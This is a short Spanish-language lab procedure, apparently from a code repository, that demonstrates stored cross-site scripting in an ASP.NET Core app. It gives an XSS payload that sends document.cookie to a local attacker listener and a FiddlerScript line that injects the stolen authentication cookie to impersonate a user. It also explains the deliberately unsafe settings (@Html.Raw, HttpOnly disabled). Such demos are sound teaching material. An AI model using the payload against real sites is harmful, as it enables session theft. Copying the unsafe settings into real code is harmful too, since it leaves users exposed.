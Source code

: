 Procedimiento

1. Arrancamos el sitio web Server.
2. Ejecutamos la aplicación Attacker.
	- Arranca un listener HTTP para atender a las peticiones forzadas en el servidor, que recibirá y mostrará la solicitud de la víctima con la información confidencial.

3. Como usuario anónimo, en modo InPrivate, accedemos a Contact.
	- Introducimos en el campo vulnerable el siguiente código JavaScript: <script>image = new Image(); image.src='http://localhost:50666/hack/?cookie='+document.cookie;</script>
		
4. Nos autenticamos en la aplicación y accedemos a Contact.
	- Se captura la cookie de autenticación del usuario y se envía al atacante.
	
5. Arrancamos Fiddler y, en la pestaña FiddlerScript, modificamos el evento OnBeforeRequest para añadir la siguiente linea: oSession.oRequest["Cookie"] = (".AspNetCore.Identity.Application=XXX;" + oSession.oRequest["Cookie"])
	- El usuario anónimo suplanta la identidad del usuario autenticado, mientras Fiddler inyecte la cookie de autenticación en la solicitudes.
	
Información

+ Para el renderizado se utiliza el helper @Html.Raw dado que, de no permitir renderizar HTML, se codificaría para mostrarlo como texto y no se procesaría.
+ Se establece HttpOnly = false para la cookie de autenticación, o no podría ser accesible desde JavaScript.

